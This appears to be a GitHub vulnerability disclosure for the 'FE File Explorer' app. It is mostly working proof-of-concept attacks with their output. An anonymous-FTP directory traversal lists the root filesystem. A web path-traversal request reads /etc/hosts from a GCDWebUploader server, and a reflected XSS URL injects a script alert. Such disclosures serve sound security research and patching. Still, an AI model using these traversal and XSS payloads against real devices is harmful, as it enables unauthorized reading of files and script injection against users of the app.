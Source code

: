 # FE-File-Explorer
FE File Explorer Multi Vulnerabilities

Directory traversal:

connect to ftp as anynomous 

ftp> cd /../../../../../../../../../../../../../../../../
250 OK. Current directory is /../../../../../../../../../../../../../../../../
ftp> ls
200 PORT command successful.
150 Accepted data connection
total 10
drwxr-xr-x     0 root wheel        256 Jan 01 1970 usr
drwxr-xr-x     0 root wheel        128 Jan 01 1970 bin
drwxr-xr-x     0 root wheel        576 Jan 01 1970 sbin
drwxr-xr-x     0 root wheel        160 Jan 01 1970 System
drwxr-xr-x     0 root wheel        672 Jan 01 1970 Library
drwxr-xr-x     0 root wheel        224 Jan 01 1970 private
drwxr-xr-x     0 root wheel       1132 Jan 01 1970 dev
drwxr-xr-x     0 root admin       3968 Jan 01 1970 Applications
drwxr-xr-x     0 root admin         64 Jan 01 1970 Developer
drwxr-xr-x     0 root admin         64 Jan 01 1970 cores

local file inclusion (web) : 

GET /../../../../../../../../../../../../../../../../etc/hosts HTTP/1.1
Host: 192.168.1.178:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5376e Safari/8536.25
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

---
HTTP/1.1 200 OK
Connection: Close
Server: GCDWebUploader
Content-Type: application/octet-stream
Last-Modified: Wed, 13 Jul 2022 10:35:46 GMT
Date: Tue, 06 Sep 2022 21:40:40 GMT
Content-Length: 213
Cache-Control: max-age=3600, public
Etag: 1152921500312311378/1657708546/0

##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost

reflected xss: 

http://192.168.1.178:8080/download?path=%3Cscript%3Ealert(%27rose%20taken%27);%3C/script%3E
